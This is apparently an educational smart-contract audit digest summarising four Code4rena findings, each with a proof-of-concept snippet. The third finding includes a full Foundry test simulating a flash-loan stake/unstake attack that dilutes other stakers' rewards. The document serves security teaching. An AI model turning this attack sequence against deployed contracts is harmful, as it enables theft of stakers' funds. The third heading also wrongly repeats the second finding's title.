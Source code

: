 # ETAAcademy-Adudit: 1. Dos

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DOS</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>dos</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] EIP-155 is not enforced, allowing attackers/malicious operators to profit from replaying transactions

### Absence of enforcement of EIP-155

- Summary: Attackers and malicious operators profit from replaying transactions due to the absence of enforcement of **`EIP-155`**, which prevents replay attacks by including the chain ID in the transaction's signature.

- Impact & Recommendation: Attackers can replay transactions from networks not protected by EIP-155, while operators can replay early user transactions from other EVM networks to collect gas fees or profit directly.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-05-eip-155-is-not-enforced-allowing-attackersmalicious-operators-to-profit-from-replaying-transactions) & [Report](https://github.com/code-423n4/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

                  let should_check_chain_id = if matches!(
                    common_data.transaction_type,
                    TransactionType::LegacyTransaction
                ) && common_data.extract_chain_id().is_some()
                {
                    U256([1, 0, 0, 0])
                } else {
                    U256::zero()
                };
    pub fn extract_chain_id(&self) -> Option<u64> {
        let bytes = self.input_data()?;
        let chain_id = match bytes.first() {
            Some(x) if *x >= 0x80 => {
                let rlp = Rlp::new(bytes);
                let v = rlp.val_at(6).ok()?;
                PackedEthSignature::unpack_v(v).ok()?.1?
            }

  ```

  </details>

## 2. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### ProfitManagers in different markets

- Summary: In GuildToken.sol, setting profitManager in the constructor causes problems as different markets have different ProfitManagers. Calling `notifyPnL()` with negative values from other term types triggers `notifyGaugeLoss()`, leading to reverts because the caller differs from the constructor-set ProfitManager.

- Impact & Recommendation: In GuildToken.sol, ProfitManager should be dynamically called to accommodate different ProfitManagers for each market.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testNotifyPnLCannotBeCalledWithNegative() public {
        // Show that for the initial gUSDC term there is no problem.
        credit.mint(address(profitManager), 10);
        profitManager.notifyPnL(term, -1);
        creditWETH.mint(address(profitManagerWETH), 10);
        vm.expectRevert("UNAUTHORIZED");
        profitManagerWETH.notifyPnL(termWETH, -1);
    }

  ```

  </details>

## 3. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### Staking and unstaking in the same block

- Summary: A borrower initiates a loan with the minimum amount in a term without mandatory partial repayment and transfers the funds to `EXPLOITER` after interest accrual. `EXPLOITER` then utilizes a flash loan to stake the amount into the same term via SurplusGuildMinter, repays the original loan, triggering `notifyPnL()`, which reduces rewards for other Guild holders by updating the `_gaugeProfitIndex`. Finally, `EXPLOITER` unstakes and returns the flash loan.

- Impact & Recommendation: To prevent attackers from instantly accumulating rewards without being long-term stakeholders like others in the system, several protective measures can be implemented. These include disallowing staking and unstaking in the same block, introducing staking/unstaking fees, or implementing a "warm-up period" during which stakers are unable to accumulate interest.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract DeflateGuildHoldersRewardsUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private ALICE = makeAddr("alice");
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        Core private core;
        ProfitManager private profitManagerUSDC;
        CreditToken gUSDC;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManagerUSDC));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(termUSDC, "termUSDC");
        }
        function testGuildHoldersRewardsWithoutEXPLOITER() public {
            // 3 users borrow gUSDC and stake them into the gUSDC term
            // In reality there may be more users, but for testing purposes, three are sufficient.
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gUSDC.mint(address(profitManagerUSDC), interest);
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("------------------------------BEFORE ATTACK------------------------------");
            console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        function testGuildHoldersRewardsAfterEXPLOITER() public {
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

            console.log("-------------------------------AFTER ATTACK-------------------------------");
            console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
            // EXPLOITER gets a flashloan.
            gUSDC.mint(EXPLOITER, 10_000_000e18);
            console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 10_000_000e18);
            sgmUSDC.stake(termUSDC, 10_000_000e18);
            console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

            sgmUSDC.getRewards(EXPLOITER, termUSDC);
            console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
            console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
            //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termUSDC, 10_000_000e18);
            vm.stopPrank();
            console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));
            // NOTE: EXPLOITER repays the flash loan here.
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
        function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
            uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
            uint256 YEAR = 31557600;
            interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
        }
    }

  ```

  </details>

## 4. [Medium] An attacker can bloat the Pink runtime storage with zero costs

### Bloat attack by dust accounts

- Summary: The Pink runtime's low Existential Deposit (ED) enables attackers to bloat storage with minimal cost by creating many low-balance accounts. This increases storage costs and fees for all users, posing a significant problem.

- Impact & Recommendation: Consider using a reasonable Existential Deposit. I recommend at least one CENTS (i.e. 1_000_000_000). When an account falls below the ED, it's removed from storage, resetting the nonce.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-phala-network#m-02-an-attacker-can-bloat-the-pink-runtime-storage-with-zero-costs) & [Report](https://code4rena.com/reports/2024-03-phala-network)

  <details><summary>POC</summary>

  ```rust
    -    pub const ExistentialDeposit: Balance = 1;
    +    pub const ExistentialDeposit: Balance = 1 * CENTS;

  ```

  </details>
